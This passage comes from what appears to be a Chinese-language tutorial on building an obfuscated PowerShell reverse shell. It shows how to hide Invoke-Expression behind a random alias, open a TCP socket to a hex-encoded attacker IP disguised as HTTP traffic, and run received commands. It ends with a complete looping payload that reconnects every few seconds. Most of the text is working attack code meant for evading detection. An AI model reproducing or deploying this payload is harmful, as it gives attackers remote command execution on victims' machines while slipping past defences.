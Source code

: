 > **$x[-4] = x**

因此，将上述内容串联起来，我们得到了 **ex**。使用 **Set-Alias**，我们将命令 **IEX** 分配给 **$x**，这意味着 **IEX** 别名。**Invoke-Expression** 成为我们的随机字符串，即 “**n-eiorvsxpk5**”。因此，现在我们可以使用 **n-eiorvsxpk5** 表达式执行任何命令。下面的截图应该可以更好地解释这一点：

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfdPfUrbQvOKmr2UY5IiakdjMNJxHFSnTeu6xp9QvOkyIpnQxW5YQyh5WMlicNWnkW5AgSv8uIfex1Qw/640?wx_fmt=png)

或者，如果您不想为 I、E 和 X 使用相同风格的编码，您也可以使用不同的模式。例如，我们可以通过以下操作来混淆从 IEX 中提取 X：

```
Set-alias $x ($x[$true-10] + ($x[[byte]('0x' + 'FF') - 265]) + $x[$false - [int]([Datetime]::Today).ToString().Split("/")[2].Split(" ")[0] + 2015])
```

在计算完之后，我们可以使用 **-4** 作为下标 ，**x[-4]** 作为提取的字符串，得到字符串 **x**。

现在你在上面看到的是一个非常简单的混淆。唯一的限制是你的创造性思维。接下来，我们继续使用我们之前解码的 **$p** 变量创建一个套接字，该变量包含 IP 和我们的端口。我现在还没有混淆端口，因为现在你应该已经知道如何混淆了。此外，我们将在 **$z** 变量中为我们的套接字设置输入输出流：

```
$y = New-Object System.Net.Sockets.TCPClient($p,80)
$z = $y.GetStream()
```

接下来，我们将上面创建的数据（带有 GET 请求的用户代理字符串）转换为字节，并将其存储在变量 **$d** 中，并使用我们上面创建的输出流将其写入服务器。现在同样，我们等待来自服务器的任何输入，在收到任何输入时，它使用 **n-eiorvsxpk5** 执行命令，即 **Invoke-Expression**，将其转换为字节并发送回。  

```
$d = $s::UTF8.GetBytes($w)
$z.Write($d, 0, $d.Length)
$t = (n-eiorvsxpk5 whoami) + "$ "
while(($l = $z.Read($b, 0, $b.Length)) -ne 0){
    $v = (New-Object -TypeName $s).GetString($b,0, $l)
    $t = (&"whoami") + "$ "
    $d = $s::UTF8.GetBytes((n-eiorvsxpk5 $v 2>&1 | Out-String )) + $s::UTF8.GetBytes($t)
    $z.Write($d, 0, $d.Length)
}
$y.Close()
```

您在上面可以看到的另一件事是，我正在附加命令的输出，将其存储在 **$t** 变量中，并与网络上的每个数据一起发送。此外，一旦从服务器收到零字节，我们最终会关闭套接字。最后，我们将整个有效负载与 sleep 命令一起放入一个短短的真循环中，这样即使我们的连接中断，它也会 sleep X 秒，然后尝试重新连接到我们的服务器。最终代码就是这个样子：  

```
while ($true) {
    $px = "c0","a8","38","1"
    $p = ($px | ForEach { [convert]::ToInt32($_,16) }) -join '.'
    $w = "GET /index.html HTTP/1.1`r`nHost: $p`r`nMozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0`r`nAccept: text/html`r`n`r`n"
    $s = [System.Text.ASCIIEncoding]
    [byte[]]$b = 0..65535|%{0}
    $x = "n-eiorvsxpk5"
    Set-alias $x ($x[$true-10] + ($x[[byte]("0x" + "FF") - 265]) + $x[[byte]("0x" + "9a") - 158])
    $y = New-Object System.Net.Sockets.TCPClient($p,80)
    $z = $y.GetStream()
    $d = $s::UTF8.GetBytes($w)
    $z.Write($d, 0, $d.Length)
    $t = (n-eiorvsxpk5 whoami) + "$ "
    while(($l = $z.Read($b, 0, $b.Length)) -ne 0){
        $v = (New-Object -TypeName $s).GetString($b,0, $l)        
        $d = $s::UTF8.GetBytes((n-eiorvsxpk5 $v 2>&1 | Out-String )) + $s::UTF8.GetBytes($t)
        $z.Write($d, 0, $d.Length)
    }
    $y.Close()
    Start-Sleep -Seconds 5
}
```
